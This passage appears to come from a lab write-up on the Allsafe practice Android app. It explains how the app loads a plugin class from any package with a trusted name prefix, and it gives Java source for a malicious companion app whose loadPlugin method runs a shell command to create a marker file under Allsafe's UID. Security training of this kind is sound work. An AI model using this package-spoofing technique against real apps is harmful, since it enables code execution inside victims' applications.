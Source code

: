 In this above code the app obtains the `ClassLoader` of any app whose package begins with `infosecadventures.allsafe`. It then tries to find `infosecadventures.allsafe.plugin.Loader` and call its `loadPlugin` method.<br />
The main issue here is that an attacker can create their own app with a package name that begins with the right prefix, create the specified class with the `loadPlugin` method, and in that method we can use the `Runtime` object to get code execution in the context of the victim app (Allsafe).<br />

The exploit code for this app is pretty straight forward. I created a new Android application with package name `infosecadventures.allsafe.plugin`, created a class called `Loader` and below is the code of `Loader.java`:
```java
package infosecadventures.allsafe.plugin;

import androidx.appcompat.app.AppCompatActivity;
import android.os.Bundle;

public class Loader extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_loader);
    }

    public static Object loadPlugin(){
        try {
            Runtime.getRuntime().exec("touch /data/data/infosecadventures.allsafe/compromised1337").waitFor();
        } catch (Exception e){
            throw new RuntimeException(e);
        }
        return null;
    }
}
```

Finally, build and install the app on your device, open `Allsafe` and then check the data dir to find that `compromised1337` was created with the UID of `Allsafe`.

![56](/assets/images/Android/Allsafe/56.png)
